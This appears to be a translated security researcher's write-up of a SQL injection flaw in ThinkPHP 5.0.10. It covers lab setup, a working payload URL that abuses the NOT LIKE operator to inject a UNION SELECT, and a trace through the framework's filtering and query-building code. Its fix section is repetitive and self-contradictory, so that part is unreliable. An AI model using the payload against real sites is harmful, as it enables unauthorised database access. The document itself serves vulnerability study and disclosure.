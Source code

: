 # ThinkPHP5.0.10 SQL Injection

Author: H3rmesk1t

Data: 2021.08.13

# Vulnerability Summary
- This vulnerability exists in the parseWhereItem method of the Mysql class. Since the program does not filter the data well, it directly splices the data into SQL statements; another way, the filterValue method of the Request class misses filtering NOT LIKE keywords, which ultimately leads to the occurrence of SQL injection vulnerability
- Vulnerability impact version: ThinkPHP=5.0.10

# Initial configuration

Get the test environment code

```bash
composer create-project --prefer-dist topthink/think=5.0.10 tpdemo
```
![Insert the picture description here](https://img-blog.csdnimg.cn/d24f5ac50d22475ea572e510632df2e1.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Set the require field of the composer.json file to the following

```bash
"require": {
    "php": ">=5.4.0",
    "topthink/framework": "5.0.10"
},
```

Then execute `composer update` and set the `application/index/controller/Index.php` file code as follows

![Insert the picture description here](https://img-blog.csdnimg.cn/1835c360adee4a9380b9451fc4a131ea.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

```php
<?php
namespace app\index\controller;

class Index
{
    public function index()
    {
        $username = request()->get('username/a');
        $result = db('users')->where(['username' =$username])->select();
        var_dump($result);
        return '<style type="text/css">*{ padding: 0; margin: 0; } .think_default_text{ padding: 4px 48px;} a{color:#2E5CD5;cursor: pointer;text-decoration: none} a:hover{text-decoration:underline; } body{ background: #fff; font-family: "Century Gothic","Microsoft yahei"; color: #333;font-size:18px} h1{ font-size: 100px; font-weight: normal; margin-bottom: 12px; } p{ line-height: 1.6em; font-size: 42px }</style><div style="padding: 24px 48px;"<h1>:)</h1><pThinkPHP V5<br/><span style="font-size:30px">Ten years of hard work - A high-performance framework designed for API development</span></p><span style="font-size:22px;">[ V5.0 version is exclusively sponsored by <a href="http://www.qiniu.com" target="qiniu">Qiu Cloud</a]</span></div><script type="text/javascript" src="http://tajs.qq.com/stats?sId=9347272" charset="UTF-8"></script><script type="text/javascript" src="http://ad.topthink.com/Public/static/client.js"></script><thinkad id="ad_bd568ce7058a1091"></thinkad>';
    }
}
?>
```

Configure database-related information in the `config/database.php` file, and enable `app_debug` and `app_trace` in `config/app.php` to create the database information as follows

````sql
create database thinkphp;
use thinkphp;
create table users(
	id int primary key auto_increment,
	username varchar(50) not null
);
insert into users(id,username) values(1,'H3rmesk1t');
```
# Vulnerability Exploit

Payload

```ph
http://127.0.0.1/cms/public/index.php/index/index?username[0]=not%20like&username[1][0]=%%&username[1][1]=233&username[2]=)%20union%20select%201,user()%23
```
![Insert the picture description here](https://img-blog.csdnimg.cn/b238b56d42d742eab36f90349b3bf7f3.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# Vulnerability Analysis

First of all, no matter how the data is passed to the server, the data will be passed through the `input` method of the `Request` class in ThinkPHP. The data will not only be cast, but will also be processed by the `filterValue` method. This method is used to filter expressions in the form, but the code does not filter `NOT LIKE`, and this vulnerability takes advantage of this.

Follow up with `thinkphp/library/think/Request.php`, in the `input` method, the incoming data will be filtered and casted by `filterValue`, and then return

![Insert the picture description here](https://img-blog.csdnimg.cn/0dc7562d733b40408bcef48b15740996.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Follow up on the `filterValue` method to see how it is implemented. I found that the `filterExp` method is called and you can see that `NOT LIKE` is not filtered.

![Insert the picture description here](https://img-blog.csdnimg.cn/410c5c53790b41a9be838ea0397570f1.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Continue to follow up on ThinkPHP's method of processing SQL statements. First, the program calls the `where` method of the `Query` class, analyzes the query expression through its `parseWhereExp` method, and then returns and continues to call the `select` method. Prepare to start building the `select` statement.

![Insert the picture description here](https://img-blog.csdnimg.cn/2a2a4df416a24d009187ce18d000f330.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
!
[Insert the picture description here](https://img-blog.csdnimg.cn/5f6348d163c84d78884284e0442114d1.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

The `$this->builder` here is the `think\db\builder\Mysql` class, and the `Mysql` class inherits from the `Builder` class, so it continues to call the `select` method of the `Builder` class, which calls the `parseWhere` method, and then calls the `buildWhere` method. The method continues to call the `parseWhereItem` method, follow up with the method

![Insert the picture description here](https://img-blog.csdnimg.cn/bba6e107e264477c80505659edf5e5c9.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![Insert the picture description here](https://img-blog.csdnimg.cn/5c0dabb4b6b04dc7a618510b717429f5.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

Here, when the operator `$exp` is `NOT LIKE` or `LIKE`, the logical control character of MySQL is controllable, and then splicing is returned and executed in the SQL statement, resulting in a SQL injection vulnerability

![Insert the picture description here](https://img-blog.csdnimg.cn/d7ccb54cc93445eb9454fac2ff94eb27.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
![Insert the picture description here](https://img-blog.csdnimg.cn/d26d15a2ba4e460783ec90ed7f364373.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)

The executed SQL statement is:
````sql
(`username` NOT LIKE '%%' ) UNION SELECT 1,USER()# `username` NOT LIKE '233')
```

Complete method call, from bottom to top

![Insert the picture description here](https://img-blog.csdnimg.cn/06ab809b6794427e8ea486d0f5420010.png#pic_center)
# Vulnerability Fix

In the `filterValue` version of the `Request.php` file, the `NOT LIKE` keyword is filtered out. In the `filterValue` version of the `Request.php` file, the `NOT LIKE` keyword is filtered out. In the `Request.php` version before 5.0.10, the vulnerability does not exist, but its code does not filter out the `NOT LIKE` keyword; after debugging, it was found that in the `NOT LIKE` version before 5.0.10, the default allowed expression does not exist in the `NOT LIKE` expression, so the vulnerability can be triggered.

![Insert the picture description here](https://img-blog.csdnimg.cn/a4c2903335d94c5d92f9f32bdee3c473.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)
# Attack summary

Refer to Master Mochazz's audit process

![Insert the picture description here](https://img-blog.csdnimg.cn/691f1e6404b946928440a5182373f70b.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L0xZSjIwMDEwNzI4,size_16,color_FFFFFF,t_70#pic_center)